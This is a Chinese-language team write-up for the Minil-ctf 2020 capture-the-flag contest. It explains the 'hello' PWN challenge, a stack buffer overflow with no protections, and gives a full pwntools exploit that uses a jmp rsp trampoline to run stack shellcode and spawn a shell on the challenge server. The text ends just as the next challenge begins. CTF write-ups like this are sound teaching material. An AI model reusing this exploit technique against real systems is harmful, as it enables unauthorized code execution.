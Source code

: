 # Minil-ctf 2020 部分题目WriteUp
---
team: 枣子姐永远滴神
members:

    - u7chi
    - Tian
    - 讲不了道理哇_

---
## 目录
+ 0x1 PWN
	+ 0x11 hello
	+ 0x12 ezsc
	+ 0x13 noleak
+ 0x2 MISC
	+ 0x21 MiniGameHacking
	+ 0x22 MITM1 and MITM2
+ 0X3 Android
	+ 0x31 Testonly?
	+ 0x32 Khronos
+ 0x4 Reverse
	+ 0x41 Easyre

## 0x1 PWN
### 0x11 hello
先查看一下程序开启了哪些保护，发现啥都没开。

![11.PNG](https://i.loli.net/2020/05/18/lPMYCRDs4aqdoIX.png)

再来看看IDA逆向的源码，下图所示函数中存在漏洞，读入了过量的字符

![12.PNG](https://i.loli.net/2020/05/18/uzb3CykpmWgBUcH.png)

但是由于读入数据长度受限，我们最多能再覆盖一个rbp和一个ret加一个ret下面的栈帧。无法构造较长的RoP链。在看到NX disabled后，就考虑将shellcode布置到栈上，利用跳转到ret下面的栈帧做跳板（该栈帧我们可以任意控制，因而可以写入代码sub rsp, 0x40;jmp rsp)来跳转到shellcode处。
具体exp如下：
```python
#encoding:utf-8
from pwn import *

context(arch='amd64', os='linux', log_level='debug')


sh = remote('pwn.challenge.mini.lctf.online', 10043)

jmp_rsp = 0x4006ca #用Ropgadget得到跳转到栈上执行代码的指令的地址
sub_rsp_jmp = asm('sub rsp, 0x40;jmp rsp')
shellcode = asm(shellcraft.sh())
print len(shellcode) #这里打印一下shellcode的长度，看之后需要补几个'a'
sh.recvuntil('name?\n')
shell =shellcode + 'a'*0x8+p64(jmp_rsp)+sub_rsp_jmp
sh.sendline(shell)



sh.interactive()
```
### 0x12 ezsc
同样的，查看一下程序开启的保护,没法修改got表，不能在栈上运行代码，有canary。

